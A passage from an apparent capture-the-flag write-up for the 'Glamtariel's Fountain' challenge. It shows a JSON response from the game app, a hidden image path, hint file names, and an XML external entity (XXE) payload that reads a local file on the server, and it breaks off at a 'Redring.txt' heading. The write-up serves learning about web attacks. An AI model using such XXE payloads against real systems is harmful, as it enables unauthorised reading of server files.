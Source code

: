 ```
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

Visiting the URL [https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png](https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png)

![5b6a5b197954a5524b6e43266c488afe.png](../../_resources/5b6a5b197954a5524b6e43266c488afe.png)

The hints are
x_phial_pholder_2022
redring.txt
bluering.txt


So we send these request to this new path....
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/redring.txt"> ]>`

### Redring.txt